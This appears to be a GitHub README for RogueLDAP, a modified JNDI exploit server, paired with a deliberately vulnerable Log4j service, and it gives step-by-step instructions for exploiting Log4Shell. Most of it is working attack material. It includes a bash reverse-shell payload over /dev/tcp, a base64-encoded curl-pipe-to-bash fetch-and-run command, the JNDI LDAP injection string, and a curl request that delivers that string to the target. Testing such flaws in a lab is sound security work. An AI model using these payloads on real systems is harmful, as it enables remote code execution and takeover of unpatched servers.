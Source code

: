## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1).

### clone the repo 

```
git clone https://github.com/twelvesec/RogueLDAP.git
```

### Build with Maven

In order to build the ```RogueLDAP``` server run the following commands 

```
cd RogueLDAP/RogueLDAP
mvn clean package
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the ```Log4Shell``` vulnerability using the ```RogueLDAP``` server.  

### Build with Docker

From cli run the following command to build the ```logging-log4j2``` application 

```
cd RogueLDAP/logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
```

### Build with Maven

```
cd RogueLDAP/logging-log4j2
mvn clean package  
```

## Setting up the Environment and run the exploit

In order to setup the environment and run the exploit the following steps should be followed 

1. Open a new terminal window and run the ```RogueLDAP``` server at the attacking machine

```
cd RogueLDAP/RogueLDAP/target
java -jar RogueLDAP-1.4-SNAPSHOT.jar -i <YOUR-IP-ADDRESS>
```

2. Open a new terminal window and run the vulnerable ```logging-log4j2``` application at the target machine


#### Run with Docker 

```
cd RogueLDAP/RogueLDAP
docker run -p 8080:8080 logging-log4j2-vuln
```

#### Run with Java 

```
cd RogueLDAP/RogueLDAP/target
java -Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector -jar logging-log4j2-1.0.jar

```

3. create a folder called shells at a preffered location at the attacking machine

```
mkdir shells 
cd shells 
```

4. Inside the shells folder create an ```index.html``` file 

```
touch index.html 
```

5. Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to your environment

``` 
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.6/8082 0>&1" &
``` 

6. convert the payload ```$(curl 192.168.1.6:8085|bash)``` in base64 format as seen below (change the IP address with the one that suits to your environment) 

```
JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=
```

7. In order to perform a JNDI LDAP query the following payload will be used (change the IP address with the one that suits to your environment) 

```
${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}
``` 

7. Now open a new terminal window and inside the shells directory run the following command in order to start a python simple HTTP server

```
cd shells 
python3 -m http.server 8085
```

8. Now that the ```logging-log4j2``` application runs, open a new terminal window and run the ```curl``` command line tool in order to send the jndi payload as shown below 
(change the IP address with the one that suits to your environment) 

```
curl -s -X POST http://192.168.1.6:8080/lol -H "Content-type:application/json" -d "{\"vuln\":\"\${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}\"}"
```
